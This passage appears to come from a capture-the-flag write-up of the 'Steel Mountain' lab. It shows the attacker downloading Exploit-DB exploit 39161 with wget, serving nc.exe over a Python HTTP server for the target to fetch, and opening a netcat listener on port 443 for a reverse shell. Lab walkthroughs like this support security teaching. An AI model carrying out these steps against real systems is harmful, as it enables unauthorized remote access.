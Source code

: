 ```bash

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
```
{% endraw %}

<br />
Lookup the exploit linked in the box description.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/steelmountain/exploitdb.png" title="Exploit-DB" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://www.exploit-db.com/exploits/39161">https://www.exploit-db.com/exploits/39161</a>

<br />
Download the exploit to the local working folder.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# wget https://www.exploit-db.com/raw/39161 -O exploit.py
--2025-02-25 12:53:23--  https://www.exploit-db.com/raw/39161
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2515 (2.5K) [text/plain]
Saving to: \u2018exploit.py\u2019

exploit.py                                           100%[=====================================================================================================================>]   2.46K  --.-KB/s    in 0s      

2025-02-25 12:53:23 (339 MB/s) - \u2018exploit.py\u2019 saved [2515/2515]
```
{% endraw %}

<br />
Copy nc.exe into the local working folder.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# cp `locate nc.exe` .
root@ip-10-10-30-38:~/Rooms/steelmountain# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Start a netcat listener.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# nc -nlvp 443
Listening on 0.0.0.0 443
```
{% endraw %}
